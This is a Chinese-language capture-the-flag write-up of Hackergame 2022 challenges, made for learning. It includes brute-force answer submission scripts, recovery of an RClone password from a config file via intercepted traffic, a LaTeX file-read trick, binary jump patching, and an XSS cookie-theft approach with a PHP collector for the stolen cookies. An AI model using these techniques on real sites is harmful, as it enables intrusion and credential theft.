


<mdc-composition>

Hackergame 2022 个人题解
=====

<p class="subtitle-line">yezhiyi9670, on Oct. 28, 2022</p>

## 0. 目录

这篇题解包含大部分我做出来了的题，并且尽可能详细地记录了题目内容和我的思考与尝试的过程。题目按照我解决的时间顺序排列（包含多个子任务的题，以解出第一个子任务的时间为准）。

我的主操作系统是 Windows。使用 Linux 时，一般使用 Ubuntu WSL，有需要时使用 Ubuntu 虚拟机。

| 题号   | 标签    | 鉴定                              | 题目               | 分值                                   | 完成于                         |
| ------ | ------- | --------------------------------- | ------------------ | -------------------------------------- | ------------------------------ |
| 1      | web     | trivial                           | 签到               | 50/50                                  | 10-22A                         |
| 5      | web     | browser                           | Xcaptcha           | 150/150                                | 10-22A                         |
| 4      | general | code                              | HeiLang            | 100/100                                | 10-22A                         |
| 3      | general | capture                           | 家目录里的秘密     | 250/250                                | 10-22A, 10-23A                 |
| 6      | general | <font color=gray>trivial</font>   | 旅行照片           | 100/<font color=lightgray>250</font>   | <font color=gray>10-22A</font> |
| 2      | general | crack                             | 猫咪问答喵         | 300/300                                | 10-22A, 10-23A                 |
| 13     | web     | browser                           | 微积分计算小练习   | 200/200                                | 10-22A                         |
| 8      | web     | <font color=gray>prof</font>      | LaTeX 机器人       | 150/<font color=lightgray>350</font>   | <font color=gray>10-22A</font> |
| 12     | binary  | reverse                           | Flag 自动机        | 200/200                                | 10-22N                         |
| 9      | web     | browser                           | Flag 的痕迹        | 150/150                                | 10-22N                         |
| 11     | general | prof                              | 线路板             | 150/150                                | 10-22N                         |
| 20     | general | code                              | 光与影             | 250/250                                | 10-22N                         |
| 7      | general | code                              | 猜数字             | 150/150                                | 10-25M                         |
| 15     | math    | crypto                            | 蒙特卡罗轮盘赌     | 200/200                                | 10-25M                         |
| 30     | math    | <font color=gray>brute</font>     | 企鹅拼盘           | 250/<font color=lightgray>600</font>   | <font color=gray>10-25M</font> |
| 22     | web     | backend                           | 你先别急           | 300/300                                | 10-25A                         |
| 14     | binary  | linux                             | 杯窗鹅影           | 400/400                                | 10-26M, 10-26A                 |
| 17     | math    | <font color=gray>brute</font>     | 惜字如金           | 200/<font color=lightgray>450</font>   | <font color=gray>10-26A</font> |
| 24     | binary  | <font color=gray>prof</font>      | 片上系统           | 200/<font color=lightgray>500</font>   | <font color=gray>10-26A</font> |
| ~~32~~ | binary  | <font color=gray>reverse</font>   | ~~火眼金睛的小 E~~ | 150/<font color=lightgray>700</font>   | <font color=gray>10-27A</font> |
| 10     | general | <font color=gray>judgehack</font> | 安全的在线评测     | 150/<font color=lightgray>400</font>   | <font color=gray>10-27N</font> |
| 26     | binary  | linux                             | 看不见的彼方       | 300/300                                | 10-28M                         |
| ~~27~~ | math    | prof                              | ~~量子藏宝图~~     | 300/300                                | 10-28N                         |
| ~~19~~ | math    | <font color=gray>crypto</font>    | ~~置换魔群~~       | 200/<font color=lightgray>700</font>   | <font color=gray>10-28N</font> |
| \*     |         |                                   |                    | 4850/<font color=lightgray>7300</font> | 10-28N                         |

题解中可能包含“我们”。这是习惯说法，并不是说“我们”有一个团队在一起做题。此文件在比赛结束前并未公开。题解中的 flag 仅为示例，请注意实际情况下部分题目的 flag 与选手 token 有关。

鉴定标签：

- `trivial` 简单的电脑小技巧，入门者应当知道
- `brute` 暴力算法，通过暴力计算本地检验获得答案
- `crack` 答案爆破，通过暴力枚举答案反复提交来获得答案
- `code` 基本的程序设计常识，以及代码编辑、调试技巧
- `browser` Web 前端，包括网页修改、浏览器脚本等
- `backend` Web 后端，包括后端程序、数据库等
- `reverse` 逆向工程（特指以修改为目的）
- `capture` 网络抓包分析
- `linux` Linux 相关常识与技巧，需要一定使用经验
- `judgehack` 攻击算法竞赛的在线评测系统，使其瘫痪或窃取答案
- `crypto` 随机数与密码学
- `prof` 其他领域专业知识，有的需要特殊的软件

<mdc-pagebreak></mdc-pagebreak>

## 1. 签到 (*50)

> 关键词：修改参数


尝试随便写点东西提交，可以看到 URL 变化 `http://202.38.93.111:12022/?result=2???`，同时显示错误“你签的不是 2022，再试试”。

将网址改为 `.../?result=2022`，即可通过。

### 不可行的做法

#### 用脚本快速完成绘制

据不可靠观察，有的选手试图使用脚本快速绘制。这是不可行的，因为最后一个框限时是 0 秒。程序处理完点击事件后，计时结束的事件将不可避免地立即执行，因而此框不会继续接收其他的鼠标行为，最终结果是只能画出一个点。

#### 使用开发者工具修改识别结果

初级玩家可能会想到的方法，使用开发者工具（F12）修改“识别结果”处显示的内容。经测试，这是不可行的。事实上，如果这可行，则证明此网页的 UI 代码违反了“单向数据流”原则。

### Flag

```plain
flag{HappyHacking2022-91a262a68d}
```

## 5. Xcaptcha (*150)

> 关键词：F12、用户脚本

很明显，我们可以用浏览器脚本解决这一问题。

首先，我们要暂停这个转瞬即逝的页面获得其内容。这并不是很难。只须在点击复选框前打开开发者工具（F12），进入目标页面后再立刻点击调试器中的暂停即可。


使用元素检查器查看页面结构，可以看到表单的结构和提交按钮。

```html
<div class="form-group">
	<label for="captcha1">
		338047796900863159884485530374509373931
			+258128276593527970164589696145985118394 的结果是？
	</label>
	<input
		type="text" class="form-control"
		id="captcha1" name="captcha1" placeholder="请输入结果">
</div>
```

```html
<button type="submit" class="btn btn-primary" id="submit">提交</button>
```

这样，我们的目标就很明确了：

1. 等待页面加载完毕。
2. 获取 `label[for=captcha1]` 的内容，用正则表达式 `/^(\d+)\+(\d+)/` 解析，并计算结果，填入 `input#captcha1`。
3. 对于 `captcha2` `captcha3` 亦然。
4. 在合适的时机触发 `button#submit` 上的点击事件，完成提交。

需要注意，由于数字太大，必须采用 BigInt 进行运算。

最后，脚本（由于篇幅关系略去脚本头的部分内容）：

```javascript
// ==UserScript==
// @name        Hackergame 2022 Xcaptcha
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

setTimeout(() => {
  let solveCaptcha = (x) => {
    let data = x.match(/(\d+)\+(\d+)/)
    let result = BigInt(data[1]) + BigInt(data[2])
    return result.toString()
  }

  if($('label[for=captcha1]').length != 0) {

    $('input#captcha1').val(solveCaptcha($('label[for=captcha1]').text()))
    $('input#captcha2').val(solveCaptcha($('label[for=captcha2]').text()))
    $('input#captcha3').val(solveCaptcha($('label[for=captcha3]').text()))

    // alert(solveCaptcha($('label[for=captcha1]').text()))

    setTimeout(() => {
      $('button#submit').trigger('click')
    }, 250)
  }
}, 500)

```

结果是，“验证失败：超过 1 秒限制”。惊不惊喜，意不意外？

显然，是网络延迟惹的祸。只要让脚本手速快一点就行了。于是，将最后两个数字均改为 `100`。

### 其他做法

#### 爬虫脚本

使用爬虫脚本抓取 Captcha 页面的内容，解析并计算后模拟提交，也是一种可行的方法。然而，这种方法需要自行解析网页代码，还需要关注发送请求时的 Cookie 等细节，便捷程度远远不及浏览器脚本。

### 不可行的做法

#### 暂停页面，慢慢算，提交

刚才我们看到，网站后端对完成验证码的用时进行了限制。因此慢慢算的方法是无法通过的。

### Flag

```plain
flag{head1E55_br0w5er_and_ReQuEsTs_areallyour_FR1ENd_abcb1aaceb}
```

Headless browser and requests are all your friend. 看来，这题设计时考虑的解法有两个，一个是通过 Python 等语言通过接口操作 Headless browser (无界面浏览器)，这类似于浏览器脚本；另一种方法是 Requests，即爬虫脚本。

## 4. HeiLang (*100)

> 关键词：Python、正则表达式替换

显然大蟒蛇语言指的是 Python。

首先，通读整个程序。程序开头声明了一个列表。

```python
a = [0] * 10000
```

接下来是大量使用 HeiLang 语法规则的赋值语句，全是针对列表 `a`。比如：

```python
a[412 | 5923 | 7217 | 7289 | 7336 | 9984 | 9998] = 51
a[524 | 901 | 1339 | 3681 | 3840 | 6378 | 6897 | 9534] = 808
a[83 | 522 | 2250 | 2379 | 6030 | 7563 | 8434] = 341
```

最后是一小段程序，首先帮助选手校验最终的 `a` 列表是否与预期相符。如果相符，将以 `a` 的内容为依据计算出 flag。

我们在小学二年级的时候学过，许多编辑器 (例如 VSCode) 具有正则表达式替换功能。我们可以利用这种方式来处理赋值语句。显然将其转化为正常的 Python 赋值会有些困难。于是退而求其次，将其转化成合法的，行为可定义的 Python 语句。考虑将 `/^a\[(.*?)\] = (.*)$/` 替换成 `assigns(a, "$1", $2)`（仅针对那些赋值语句行，不要对全文替换）。于是这些赋值语句就可以优雅地变成：

```python
assigns(a, "412 | 5923 | 7217 | 7289 | 7336 | 9984 | 9998", 51)
assigns(a, "524 | 901 | 1339 | 3681 | 3840 | 6378 | 6897 | 9534", 808)
assigns(a, "83 | 522 | 2250 | 2379 | 6030 | 7563 | 8434", 341)
```

然后我们定义一个函数 `assigns`。

```python
def assigns(arr: list, index: str, value: int):
    indices = index.split('|')
    for _index in indices:
        index = int(_index)
        arr[index] = value
```

问题就解决了。

### 其他做法

#### 用代码处理代码

如果不熟悉正则表达式替换等技巧，也可以另外写一份程序来转译 (transpile) 这个程序。当然，这需要的工作时间可比正则表达式替换长多了。

### Flag

```plain
flag{6d9ad6e9a6268d96-4084ce1019e6855d}
```

## 3. 家目录里的秘密 (*250)

> 关键词：全文搜索、网络抓包

从压缩文件中提取 `user_home.tar`，使用十六进制编辑器打开即可找到一个 flag。


提示：`tar` 文件的全称是 Tape archive，这种格式只是将目录打包成文件，过程中没有压缩。

将文件全部解压，然后全文检索 `flag`，不难发现第二个 flag 的信息似乎位于 `user/.config/rclone/rclone.conf` 中。

```ini
[flag2]
type = ftp
host = ftp.example.com
user = user
pass = tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ
```

前三条 `ftp` `ftp.example.com` `user` 显然是非常平凡的，这个 FTP 服务器即便存在，也不可能包含 flag 的信息。看来，flag 应当是在密码 `pass` 里面。但是，直接提交 `flag{tqqTq4tmQRDZ0sT_leJr7-WtCiHVXSMrVN49dWELPH1uce-5DPiuDtjBUN3EI38zvewgN5JaZqAirNnLlsQ}` 并没有什么卵用。猜测为了保证基本的安全性，RClone 将密码存储到配置文件时进行了加密。我们要想办法将其解密。

当然，可以通过分析 RClone 的软件代码找出解密方法，但是...

> 与其破解密码，不如让你把密码拱手相送。 ——沃·兹基硕德

并且，

> 知彼知己，百战不殆。 ——《孙子兵法》

于是，可以尝试在 Linux 上先自己安装一个 RClone。这是一个访问网络上的文件以及进行同步的工具，除 FTP 外，还支持许多协议，比如 Dropbox 等各种网盘，还有一些 HTTP 连接，WebDAV 等通用协议。

安装后进行一个 `tldr`，可以知道，运行 `rclone config` 即可进行配置。我们先照着样子配置一个 FTP 文件源，并设置密码 `123`。然后，打开 `~/.config/rclone/rclone.conf` 看看，

```ini
[ftp1]
type = ftp
host = ftp.example.com
user = user
port = 21
pass = 4_FUP4WQ1UGaAmAZ5OUCMqt1Gw
tls = false
explicit_tls = false
```

不出意料，密码确实采取了加密措施。遗憾的是，目前还看不出来这是什么加密。但是没有关系。RClone 要想连接远程的 FTP 文件源，则必须要将密码解密再发送过去。

可是我对 FTP 并不了解，甚至不知道服务端如何搭建。我了解的是 HTTP。别忘了，刚刚才看到 RClone 支持很多种协议，且 RClone 对它们使用的密码加密措施很可能是一样的。可以利用基于 HTTP 的 WebDAV！再创建一个 WebDAV 文件源，并令其网址指向 HTTP 抓包工具 Fiddler 的 Echo service。查看其内容，可以看到它的配置文件中也包括加密的密码。

```ini
[test1]
type = webdav
url = http://10.241.1.6:8866/test-app/webdav/
vendor = other
user = example
pass = [REDACTED]
```

用文本编辑器将 `pass` 处替换成包含 flag 信息的密码加密结果。然后，用 RClone 发出一个请求。

```plain
$ rclone lsf test1:/
```

打开 Fiddler。很好，她已经华丽地截获了这一次请求的内容。


观察请求头的信息。`Authorization: Basic` 后面紧跟了一个用来身份验证的字符串。如果熟悉 Web 技术，会知道这就是 Base64 编码。接下来，在浏览器中输入

```plain
data:text/plain;base64,ZXhhbXBsZTpmbGFne2dldF9yY2xvbmVfcGFzc3dvcmRfZnJvbV9jb25maWchXzJvaTNkejF9
```

浏览器将解码出含 flag 的字符串。

```plain
example:flag{get_rclone_password_from_config!_2oi3dz1}
```

### 其他做法

#### 查看 RClone 源代码来解密密码

RClone 是一个开源软件，其源代码可以在 Github 上找到。通过阅读源代码的方式，应当能找出解密密码的算法。不过这显然是一个非常痛苦的工作。

### 可能的问题

#### Symlink 解压出错

由于压缩包内存在 Symlink，Windows 下使用 7-zip 的用户可能会在解压时出现错误。可以通过别的解压软件（或者 Linux 中的 `tar` 命令）找到出问题的文件，将其删掉。

### Flags

```plain
flag{finding_everything_through_vscode_config_file_932rjdakd}
```

```plain
flag{get_rclone_password_from_config!_2oi3dz1}
```

这个实践也告诉我们，让程序在本地以可复原的方式存储密码是有风险的。一定要充分认识这种风险，并对密码加以充分保护。

## 6. 旅行照片 2.0 (*100/250, task 1)

> 关键词：EXIF

很明显这个图是有 EXIF 信息的。

查看 EXIF 信息非常容易。在 Windows 中，使用图片查看器就可以看到大部分数据。


答案：

1. `小米/红米`
2. `84`
3. `2022/05/14`
4. `False`

结合 Windows 文件属性上看到的 EXIF 版本 `0231`，不难猜测第一空应该填 `2.31`。

将主要建筑物截图，使用 Google 图片搜索处理，可以发现这是东京的 ZOZO 海洋球场。

~~找航班真的太折磨了~~

### Flag1

```plain
flag{1f_y0u_d0NT_w4nt_shOw_theSe_th3n_w1Pe_EXlF}
```

If you don't want to show these, then wipe EXIF. 这告诉我们分享照片时一定要注意抹去 EXIF 数据，否则将暴露大量隐私信息。一张常规照片的 EXIF 还会含有定位信息，只不过此照片的定位被抹掉了。

## 2. 猫咪问答喵 (*300)

### 问题解法

> 关键词：暴力枚举 (答案爆破)、网络搜索、内部资源

我们可以通过在网上搜索获得答案，但是这有时需要很多技巧，甚至非常折磨。如果网络搜索显得不那么可行，别忘了，可以借助万能的布鲁特·福斯 (Brute-Force) 算法。记住，这也是游戏的一部分！

首先，尝试提交一个白卷。我们会获得错误信息“你全部答错了喵！”。这是个好消息，因为，一旦答对一道题，显示的信息就不可能会是这个。这意味着，使用布鲁特·福斯算法有很强的可操作性。

#### 问题 1

我们注意到这题答案格式是年-月。可能的答案数是非常有限的，因此，布鲁特·福斯算法肯定是个好方法。

上网搜索，可知 USTC NEBULA 是一个网络安全战队。高校开始重视网络安全人才的培养并不是什么很古老的事情，所以，不妨从 2016 年 1 月开始向后尝试。

不需要太多时间，就能找到答案 `2017-03`。这时，将会显示“你只答对了 1 题喵，不够喵！”。

#### 问题 4

这并不困难。在 Github 上找到 `torvalds/linux` 仓库，然后在仓库内搜索 `CVE-2021-4034`。这样就可以找到一个 Commit。


这个描述的意思是，如果 `argv` 为空，则会强制使 `argv` 包含一个空字符串，变得非空。这与 `argc` 不能为 0 的描述也是吻合的。点击右侧复制按钮，即可获得答案 `dcd46d897adb70d63e025f175a00a89797d31a43`。

#### 问题 3

答案是 2 位数字的整数。并且，Windows 2000 是一个古老的系统。不妨从 10 开始尝试，片刻即可得到答案 `12`。

到这里，就已经完成一半了。可以拿下第一个 flag。

#### 问题 2

我们知道，Linux 用户协会会将校内活动的资料上传到 `https://ftp.lug.ustc.edu.cn` 上。点开路径 `活动/2022.9.20_软件自由日/slides/`，即可找到对应的 Slide。

翻阅 Slide，找到一张包含显示异常的截图：


这个界面是 GNOME Desktop，前面的窗口是显示异常的 GNOME Terminal，后面是 GNOME 文件管理器。它们都不是 KDE 软件。应该不是这张图。后面某一页的右下角还有个小图：


前面的这个窗口出现了显示异常。选择样式的菜单应当出现在 Style 菜单的右边，然而却跑到了屏幕左上角。观察窗口标题 `Untitled / HD 1080p 25 fps`，应该是一个视频编辑工具。通过网络搜索找到 [KDE 应用官网](https://apps.kde.org/zh-cn/)，搜索“视频”，将会找到一个叫 `Kdenlive` 的软件。提交一下，没有问题。

#### 问题 6

科大网络通的域名是 `wlt.ustc.edu.cn`，但是我当时没有找到有用的信息。所以，继续布鲁特·福斯？

这里需要的答案是年-月-日。如果手动枚举答案，需要超人的毅力。所以不妨直接上脚本。

```javascript
// ==UserScript==
// @name        Hackergame 2022 Questions [cracking]
// @namespace   Hackergame 2022
// @require     https://cdn.jsdelivr.net/npm/jquery@3.2.1/dist/jquery.min.js
// ==/UserScript==

"use strict";

$(() => {
  // RESET use this: localStorage.setItem('crack-index', '0')

  let unpass_str = '你全部答错了喵！'
  let genDateList = () => { /* 生成一段时间内的所有日期 */ }
  let trialData = genDateList()
  let $typebox = $('input[name=q6]')

  let isPassed = $('.alert').text().trim() != unpass_str
  let currIndex = +localStorage.getItem('crack-index')

  if(isPassed) {
    alert('Something nontrivial!!1')
    return
  }

  if(currIndex >= trialData.length) {
    alert('nmsl')
    return
  }

  let nextData = trialData[currIndex]
  console.log("Let's try", nextData)
  currIndex += 1
  $typebox.val(nextData)
  localStorage.setItem('crack-index', currIndex.toString())

  setTimeout(() => {
    $('input[type=submit]').trigger('click')
  }, 50)
})
```

如果一个标签页不够快，可以多开几个标签页运行。

先从 2010 年开始，结果是一直到 2013 年夏季还没有找到答案。于是我决定从 2000 开始重新试试。

经过一段时间，脚本找到了答案 `2003-03-01`。

#### 问题 5

乍一看觉得各种信息都没用，网上也很难找到域名注册的历史数据。但是，那个补充的提示“第 5 小题的答案中，域名的字母共有 6 个，各不相同”却指明了一条路——枚举。一旦确定了域名后缀，剩下三个字母的状态将变得非常有限，$23 \times 22 \times 21 = 10626$。

将上面的脚本稍微修改一下，就可以用来枚举第五题。根据直觉，我先猜测域名后缀 `.org`。

经过四十多分钟，脚本报告了正确答案 `sdf.org`。这个网站的标题是“SDF Public Access UNIX System”，题目给出的，也就是它的 SSH 密钥指纹。然而，似乎只有用过这个且足够细心的人才能直接推断出这一答案。

至此，已经完成所有问题。

### 其他做法

#### 问题2 - 仔细观察菜单

问题 2 的截图中，Settings 菜单末尾有一个“Configure Kdenlive”，且“Kdenlive”很符合 KDE 命名软件的习惯。显然这就是要找的答案。

#### 问题6 - 查询学校政策文件（仅限科大在校选手）

通过网络通界面，可以点击链接进入科大[网络服务中心](http://ustcnet.ustc.edu.cn/11108/list.htm)。查询“网字文件”，可以找到[这份文件](http://ustcnet.ustc.edu.cn/2003/0301/c11109a210890/page.htm)。

然而查阅文件是需要校内身份认证的。

### 不可行的做法

#### 问题5 - 域名扫描

据不可靠观察，有的选手希望通过 DNS 解析筛选出有 DNS 记录的域名，以大幅缩减尝试的范围。然而事实上，这些域名几乎每个都有 DNS 记录（大多数指向域名销售商）。并且若 DNS 筛选实现不优，其效率可能甚至不及直接枚举并提交答案。

### Flags

```plain
flag{meowexammeow_772b498346fe0925_e53433dfdc}
```

```plain
flag{meowexamfullymeowed!_6c159adddb7f171b_2db246ec19}
```

## 13. 微积分计算小练习 (*200)

> 关键词：XSS 注入攻击、Cookie 窃取

<mdc-imgborder>

But where's the flag?

打开下载到的 `bot.py` 文件，看下面这段代码：

```python
    with webdriver.Chrome(options=options) as driver:
        ua = driver.execute_script('return navigator.userAgent')
        print(' I am using', ua)

        print('- Logining...')
        driver.get(LOGIN_URL)
        time.sleep(4)

        print(' Putting secret flag...')
        driver.execute_script(f'document.cookie="flag={FLAG}"')
        time.sleep(1)

        print('- Now browsing your quiz result...')
        driver.get(url)
        time.sleep(4)
```

也就是说，提交结果的命令行程序在访问结果页面前的“Putting secret flag”步骤中，将 flag 存储到了 Cookie 里。一旦看出这一点，目标就很明确了——通过注入攻击在结果页面上放置一些代码，获取命令行程序在无界面浏览器环境中设置的 Cookie。

不妨先试试最粗劣的注入攻击手段。


提交后，结果页面并没有弹出显示 `1` 的弹窗，但是也没有将 `<script>alert(1)</script>` 这个姓名显示出来。这说明页面对注入攻击的防范是有问题的，只是这次没有成功触发。


F12 一下看看到底出了什么问题。这里，`<script>` 标签确实成功地插入到了网页中，但没有执行，并且找不出有什么标签阻止了脚本在这里执行。再看看网页其他部分，我发现了问题——内容是通过脚本以 innerHTML 方式插入的。

```javascript
document.querySelector("#greeting").innerHTML = "您好，" + username + "！";
document.querySelector("#score").innerHTML = "您在练习中获得的分数为 <b>" + score + "</b>/100。";
```

尽管如此，还是有别的方法可以注入脚本。例如，通过图片的 `onerror` 事件。

```html

```

这样页面就会像预期的一样显示弹窗 `1`。

在注入的脚本中使用 `document.cookie` 就可以毫无困难地获取 Cookie。下一个问题是如何将这个 Cookie 显示出来。在网络攻击实践中，一般会让浏览器将其发给攻击者的服务器，然后由攻击者的服务器收集信息。

注入内容：

```html

```

服务器上的 `$public_html/public/logdata/index.php`：

```php
<?php
$info = $_REQUEST['info'] ?? '';
file_put_contents('info.txt', $info);
$img = imageCreateTrueColor(16, 16);
header('content-type: image/png');
imagePNG($img);
```

在自己浏览器上提交注入代码，服务器确实收集到了本机上的 Cookie。

然后将网址提交上去。大功告...告成？

</mdc-imgborder>


实际操作：服务器上的命令行程序因为运行超时暴毙了，`index.php` 也没有收集到结果。

这个服务器似乎不允许程序访问外网。那就寄了。寄了吗？何必拘泥于以往的网络攻击实践？直接让命令行把 Cookie 显示出来，不是更香吗？

继续阅读 `bot.py`。

```python
try:
    greeting = driver.execute_script(
        f"return document.querySelector('#greeting').textContent")
    score = driver.execute_script(
        f"return document.querySelector('#score').textContent")
except selenium.common.exceptions.JavascriptException:
    print('JavaScript Error: Did you give me correct URL?')
    exit(1)
```

这个程序显示选手成绩的方式是直接从 `#greeting` `#score` 两个元素中获取文本！所以，注入的代码只要令这里显示 Cookie 就可以了。

```html

```

提交后，显示：


大功告成！（真的

### 不可行的做法

#### 算微积分

有的选手（似乎不少）真就死磕微积分。他们会惊讶的发现，哪怕做到了 100 分，也拿不到 flag。醉翁之意不在酒！

更加讽刺的是，观察结果页面的 URL：

```plain
http://202.38.93.111:10056/share?result=MjA6dGVzdA%3D%3D
```

对 `result` 参数进行 Base64 解码，会得到 `20:test`，这就是你的成绩和姓名（而你的答案却没有包含在里面）。这意味着，这个页面就像签到题的页面一样，显示的成绩其实是可以任意修改的。

### Flag

```plain
flag{xS5_1OI_is_N0t_SOHARD_cd1f576b40}
```

XSS lol is not so hard! 注入攻击并没有那么困难。

[alert(1) to win](https://alf.nu/alert(1)) 是一个著名的注入攻击练习小游戏。如果你掌握了足够多的技巧，甚至可以去一些质量看起来不那么好的网站上玩几发，或许会有意想不到的结果。（注意，hack for fun not for profit！不要干违法犯罪的事情）

## 8. LaTeX 机器人 (*150/350, task1)

> 关键词：LaTeX 跨文件引用

阅读后端的代码后，发现编译的方式并没有什么问题。猜测 LaTeX 中存在类似于 `#include` 的方法可以引用其他文件。

第一个子任务只要用过就知道，跨文件引用就可以读出 `/flag1`。如果没用过，上网查阅也可以。

```tex
\input{/flag1}
```

$flag{becAr3fu11dUd37a2be3c61c}$


但是第二个子任务有特殊字符，这样操作会出错。并且，下面这个写法是不行的。

```tex
\verb|\input{/flag2}|
```

### Flag1

```plain
flag{becAr3fu11dUd37a2be3c61c}
```

## 12. Flag 自动机 (*200)

> 关键词：Win32 API、二进制逆向工程

作为一个~~阴间人~~，逆向工程，能不做就不做。

但是我似乎也没有找到什么绕开按钮移动机制的方法。于是，我尝试获取其窗口句柄，并用一个 C++ 程序调用 Windows API 来点击它。


```cpp
#include<bits/stdc++.h>
#include<windows.h>
using namespace std;

int main() {
    HWND p = (HWND)214307454;
    SendMessage(p, WM_LBUTTONDOWN, VK_LBUTTON, 5 + 5 * 65536);
    SendMessage(p, WM_LBUTTONUP, 0, 5 + 5 * 65536);
}
```

然后可想而知被阴了。


看来逆向工程还是要做的。我知道可以用 IDA 做，可是我不会，怎么办呢？不管了，试试吧。事情还能有多糟糕呢？

使用默认模式反编译。进入 IDA View 后，按 F5，转到伪代码界面。接下来在左边导航栏里面一通乱点，似乎找到了有用的东西。


这段代码是：

```cpp
switch ( Msg ) {
  case 2u:
    PostQuitMessage(0);
    break;
  case 0x111u:
    if ( (_WORD)a3 == 2 )
      PostQuitMessage(0);
    if ( (_WORD)a3 == 3 ) {
      if (lParam == 114514) {
        Block = (void *)sub_401F8A(hWndParent, 114514);
        MessageBoxW(hWndParent, &word_40A0C4, L"Congratulations", 0);
        Stream = fopen("flag_machine.txt", "w");
        if (!Stream) {
          MessageBoxW(hWndParent, &word_40A13C, &Caption, 0);
          free(Block);
          exit(-1);
        }
        v4 = strlen((const char *)Block);
        fwrite(Block, 1u, v4, Stream);
        fclose(Stream);
        free(Block);
      } else {
        MessageBoxW(hWndParent, &Text, &Caption, 0);
      }
    }
    break;
  ...
```

可以大胆猜想，`if` 分支会给出 flag，并写入 `flag_machine.txt` 中。而 `else` 分支会显示一个对话框“你不是此系统的超级管理员”，然后退出。

作为有 Android smali 逆向工程经验的选手，我知道这里有两种非常简单的修改方式。一是修改常量，把 `114514` 换成别的值，但在这里并不好用，因为不知道 lParam 是啥；另一种是反转指令，将 `if` 变成类似于 `if not` 的东西（在 smali 中，往往是 `if-eqz <=> if-nez`）。

回到 IDA View，找到要修改的位置。这并不困难，因为我们有一个标志性的常量 `114514`。它的十六进制是 `0x1BF52`。于是很容易可以找到目标。

```plain
cmp     [ebp+lParam], 1BF52h
jz      short loc_401840
```

显然 `cmp` 是不能改的。能不能改 `jz` 呢？可以！看看上下文就知道，有一个和 `jz` 相反的跳转指令 `jnz`。

选择 `编辑 -> 修补程序 -> 汇编`（此功能需要 KeyPatch 插件），将 `jz` 修改为 `jnz`。回到伪代码看一眼，可以发现 `if` 和 `else` 分支已经互换了。接下来选择 `编辑 -> 修补程序 -> 将更改应用到输入文件`，即可完成。

再次使用 C++ 程序辅助点击按钮。Congratulations！


### 其他做法

#### 互换“狠心夺取”“放手离开”功能

可以互换“狠心夺取”“放手离开”按钮的功能，这样就不需要使用任何辅助措施点击按钮了。具体方法此处不赘述。

### 不可行的做法

#### 使用 ResourceHacker 查找字符串资源

事实上 ResourceHacker 找不到这个程序里的任何资源（因为没有）。Flag 是以加密的形式写在程序里的，需要程序本身来解密。

#### 使用十六进制编辑查找 flag

这样做找不到 flag，因为加密了。如果搜索 `flag`，还会获得一个友情提示。


Hint: You don't need to reverse the decryption logic itself. 你并不需要逆向出解密逻辑本身。

### Flag

```plain
flag{Y0u_rea1ly_kn0w_Win32API_89ab91ac0c}
```

You really know Win32 API. 是真的吗？I don't think so!

## 9. Flag 的痕迹 (*150)

> 关键词：设计漏洞、修改参数

这有头绪吗？没有。所以自己部署一个 Doku Wiki 看看吧（反正是 PHP 程序，部署要不了多久）。

```plain
http://10.241.1.6:82/test-app/wiki/doku.php?id=wiki:welcome
```


点击右边的“历史记录”按钮，就可以看到历史记录。

```plain
http://10.241.1.6:82/test-app/wiki/doku.php?id=wiki:welcome&do=revisions
```


试试照样画葫芦？

```plain
http://202.38.93.111:15004/doku.php?id=start&do=revisions
```

不行。得到错误“Action disabled: revisions”。

点进一个旧的修订版本，

```plain
http://10.241.1.6:82/test-app/wiki/doku.php?id=wiki:welcome&rev=1662225322
```


再试试：

```plain
http://202.38.93.111:15004/doku.php?id=start&rev=1662225322
```

好消息，出现的是“No such revision”，而不是“Action disabled”。

遗憾的是，参数 `rev` 显然是个 Unix 时间戳，不是什么序列号。而我们并不知道 Flag Wiki 的管理员是什么时候手滑把 Wiki 粘贴进去的。如果要暴力查找，则需要大量时间（也许好几天，也许比赛结束了都找不到）。应该有更好的办法。

如果对 Wiki 系统有经验（像我经常浏览 Minecraft Wiki），会知道 Wiki 主要有三个地方会显示修订信息。一个是修订版本页面（试过了，不行），一个是“最近更新”页面，还有一个是“差异比较”。那么都试试看。

最近更新：

```plain
http://10.241.1.6:82/test-app/wiki/doku.php?id=wiki:welcome&do=recent
```


```plain
http://202.38.93.111:15004/doku.php?id=start&do=recent
```

没用，Action disabled。

差异比较可以通过在历史版本界面点击 Show differences between selected revisions 进入，但是网址没变。事实上，这个界面是通过 POST 方法加载的。使用 F12 可以看到 POST 传递的参数。

```plain
POST 参数
sectok: 4b84be7246339e692b8d8030aa82762d
id: wiki:welcome
rev2[0]: 1662225322
rev2[1]: 1666443973
do: diff
difftype: sidebyside
```

